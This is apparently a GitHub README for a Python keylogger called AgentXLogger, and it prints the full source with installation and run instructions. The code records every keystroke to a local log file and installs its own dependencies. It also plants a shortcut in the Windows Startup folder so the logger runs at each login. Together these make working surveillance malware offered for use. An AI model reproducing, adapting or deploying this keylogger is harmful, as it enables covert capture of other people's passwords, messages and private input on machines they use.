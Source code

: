 



## Overview
The **AgentXLogger** is a Python-based keylogger that captures keystrokes and logs them into a file. It is designed to run in the background and can be set to automatically start with the operating system. Captured keystrokes are stored in a file named `key_log.log`.

---

## Prerequisites
Before running AgentXLogger, ensure you have the following libraries installed:
- **pynput**: For capturing keyboard events.
- **plyer**: For displaying notifications (optional).
- **pywin32**: For creating Windows shortcuts.

If these libraries are not already installed, the script will automatically attempt to install them.

---

## Installation

1. **Install Python**:
   - Ensure Python is installed on your system. You can download it from [python.org](https://www.python.org/downloads/).

2. **Download Script**:
   - Save the keylogger script as `keylogger.py` on your local machine.

3. **Install Requirements**:
   - Create a `requirements.txt` file with the following content:
     ```plaintext
     pynput
     plyer
     pywin32
     ```
   - Open your terminal or command prompt and navigate to the directory where `requirements.txt` is located. Run the following command to install the required libraries:
     ```bash
     pip install -r requirements.txt
     ```

4. **Run the Script**:
   - After installing the dependencies, run the script using:
     ```bash
     python keylogger.py
     ```
   The script will check for the required packages and install any that are missing.

---

## Usage
Once the script is running, it will capture all keyboard inputs until the "Escape" key is pressed. The logged keystrokes will be saved in `key_log.log` in the same directory as the script.

---

## Automatic Startup
The keylogger creates a shortcut in the Windows Startup folder, ensuring it runs automatically whenever the user logs into Windows.

---

## Code Explanation

### Imports and Package Installation
```python
import subprocess
import sys
import os
import win32com.client  

def install(package):
    subprocess.check_call([sys.executable, "-m", "pip", "install", package])
```
- `subprocess`: Used for executing system commands.
- `sys`: Provides access to system-specific parameters and functions.
- `os`: Used for interacting with the operating system.
- `win32com.client`: Used for creating Windows shortcuts.

### Library Import and Installation
```python
try:
    from pynput.keyboard import Key, Listener
    from plyer import notification
except ImportError:
    list1 = ['tkinter', 'pynput', 'plyer', 'pywin32']
    for i in list1:
        install(i)
```
This section attempts to import necessary libraries. If any library is missing, it installs them.

### Logging Mechanism
```python
log_file = "key_log.log"
log_content = ""

def on_press(key):
    global log_content
    try:
        if key.char: 
            log_content += key.char  
    except AttributeError:
        if key == Key.backspace:
            log_content = log_content[:-1] 
        else:
            log_content += f" {key} "

    with open(log_file, "w") as f: 
        f.write(log_content)
```
- `log_file`: Specifies the name of the log file.
- `log_content`: A string that holds the recorded keystrokes.
- `on_press`: A callback function triggered when a key is pressed. It appends the pressed key to `log_content` and writes it to `log_file`.

### Key Release Handling
```python
def on_release(key):
    if key == Key.esc:
        return False
```
- `on_release`: A callback function triggered when a key is released. If the "Escape" key is pressed, it stops the listener.

### Creating a Startup Shortcut
```python
def create_startup_shortcut():
    keylogger_path = os.path.join(os.path.dirname(sys.executable), "dist", "keylogger.exe")

    startup_folder = os.path.join(os.getenv("APPDATA"), "Microsoft", "Windows", "Start Menu", "Programs", "Startup")

    shell = win32com.client.Dispatch("WScript.Shell")
    shortcut = shell.CreateShortCut(os.path.join(startup_folder, "Keylogger.lnk"))
    shortcut.TargetPath = keylogger_path
    shortcut.WorkingDirectory = os.path.dirname(keylogger_path)
    shortcut.save()

create_startup_shortcut()
```
- `create_startup_shortcut`: Creates a Windows shortcut to ensure the keylogger runs at startup.

### Main Listener
```python
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
- `Listener`: A context manager that listens for keyboard events. It calls `on_press` and `on_release` as keys are pressed and released, respectively.

---

 
